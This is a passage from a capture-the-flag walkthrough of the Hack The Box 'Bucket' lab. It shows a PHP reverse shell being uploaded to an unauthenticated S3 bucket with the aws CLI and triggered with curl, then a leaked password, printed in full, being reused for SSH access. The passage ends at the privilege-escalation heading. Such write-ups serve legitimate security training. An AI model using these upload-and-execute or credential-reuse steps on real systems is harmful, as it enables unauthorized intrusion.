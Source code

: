 ```
    "ConsumedCapacity": null
}
```

Few usernames and passwords were found, but they cannot be anywhere right now.

# Exploitation
## Getting shell onto S3
We can upload to s3! So let's upload PHP Reverse shell which we can execute on `bucket.htb`
```
luka@kali:~/htb/bucket$ aws s3 cp indexl.php s3://adserver/indexl.php --endpoint-url http://s3.bucket.htb --no-sign-request
upload: ./index.php to s3://adserver/index.php
```

Upload was successful
```
luka@kali:~/htb/bucket$ aws s3 ls s3://adserver/ --endpoint-url http://s3.bucket.htb --no-sign-request
                           PRE images/
2021-01-26 13:35:04       5344 index.html
2021-01-26 13:36:01       2397 index.php
```
And run it!
```
curl http://bucket.htb/index.php
```
Reverse shell was spawned:

![picture 39](/assets/images/fe4f49ab938f4eac27128d5f96a5b6744c0d6afe9e48e773969709e69a23e16e.png)  

## Finding SSH access as Roy

After checking the /etc/passwd, there is one potential user with password > roy, and credentials found before => "n2vM-<_K_Q:.Aa2" which worked for ssh.

![picture 40](/assets/images/29be187a1a605ce4d5c291eaeabaa4aa5738ba5d30a1f96c1a0b74dd1f438947.png)  

# PRIVILEGE ESCALATION
